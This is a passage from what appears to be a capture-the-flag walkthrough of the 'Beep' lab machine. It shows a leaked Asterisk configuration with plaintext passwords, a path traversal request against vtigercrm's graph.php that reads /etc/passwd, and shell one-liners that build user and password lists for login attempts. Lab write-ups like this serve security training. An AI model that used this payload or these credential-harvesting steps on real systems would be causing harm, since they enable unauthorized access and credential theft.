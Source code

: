 
![](Beep.assets/image-20210429065104719.png)

```bash
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
```

### Getting a shell

The following request can be used to get a list of users having a shell from **/etc/passwd**.

```bash
GET /vtigercrm/graph.php?current_language=../../../../../../../../../etc/passwd%00&module=Accounts&action= HTTP/1.1
Host: 10.10.10.7
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
```

Once the content of the passwd file is saved to a file, all the users can be easily 

```bash
cat passwd | grep "bash" | awk -F\: '{print $1}' > users
```

```bash
root
mysql
cyrus
asterisk
spamfilter
fanis
```

A password file can be generated using the initial payload file.

```bash
cat tmp | awk -F\= '{print $2}' | sort -u > password
```
